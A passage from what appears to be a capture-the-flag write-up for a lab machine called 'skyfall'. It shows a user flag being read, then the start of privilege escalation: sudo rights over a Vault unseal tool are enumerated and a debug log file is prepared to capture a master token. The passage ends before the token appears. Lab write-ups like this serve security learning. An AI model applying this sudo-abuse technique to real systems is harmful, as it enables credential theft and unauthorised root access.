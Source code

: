 ```
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
askyy@skyfall:~$ls
user.txt
askyy@skyfall:~$ cat user.txt
0031538fb5a589850------------
askyy@skyfall:~$
```

**PRIVILEGE ESCALATION:**

```
askyy@skyfall:~$ sudo -l
Matching Defaults entries for askyy on skyfall:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User askyy may run the following commands on skyfall:
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml [-vhd]*
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml
askyy@skyfall:~$
```

I ran **root/vault/vault-unseal -c /etc/vault-unseal.yaml**

```
askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -v
[+] Reading: /etc/vault-unseal.yaml
[-] Security Risk!
[-] Master token found in config: ****************************
[>] Enable 'debug' mode for details
[+] Found Vault node: http://prd23-vault-internal.skyfall.htb
[>] Check interval: 5s
[>] Max checks: 5
[>] Checking seal status
[+] Vault sealed: false
```

We can see a master token is being generated, we need to copy that to a log file.

So we need to create a **.log** file in current directory.

```
askyy@skyfall:~$ touch debug.log
```

Give the user’s claim permissions to **debug.log.**

```
askyy@skyfall:~$ chown askyy:askyy debug.log
```

```
askyy@skyfall:~$ ls -la
total 32
drwxr-x--- 4 askyy askyy 4096 Feb  7 17:46 .
drwxr-xr-x 3 root  root  4096 Jan 19 21:33 ..
lrwxrwxrwx 1 askyy askyy    9 Nov  9 21:30 .bash_history -> /dev/null
-rw-r--r-- 1 askyy askyy  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 askyy askyy 3771 Nov  9 21:30 .bashrc
drwx------ 2 askyy askyy 4096 Oct  9 18:47 .cache
-rw-r--r-- 1 askyy askyy  807 Jan  6  2022 .profile
drwx------ 2 askyy askyy 4096 Jan 18 10:32 .ssh
-rw-rw-r-- 1 askyy askyy    0 Feb  7 17:46 debug.log
-rw-r----- 1 root  askyy   33 Feb  7 17:37 user.txt
```
